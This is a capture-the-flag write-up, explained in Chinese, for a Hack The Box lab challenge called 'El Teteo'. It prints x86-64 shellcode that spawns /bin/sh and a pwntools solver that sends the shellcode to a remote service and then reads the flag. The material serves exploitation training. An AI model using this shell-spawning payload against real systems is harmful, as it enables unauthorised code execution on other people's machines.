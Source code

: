 # El Teteo
## Solution
題目給的很明顯，就是要透過 Shell code 讓題目回傳 flag，透過題目給的 `solver.py` 可以看到，題目會先接受我們的輸入，再執行 `cat flag*`，所以我們要輸入的答案就是啟動 shell 的機器碼。

/bin/sh
```
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```
最後再將 flag decode 就可以了
## Solver.py

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './el_teteo' 

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')

# Shellcode from https://shell-storm.org/shellcode/files/shellcode-806.html
sc = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

# Send shellcode
r.sendlineafter('>', sc)

# Get flag
pause(1)
r.sendline('cat flag*')
print(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```
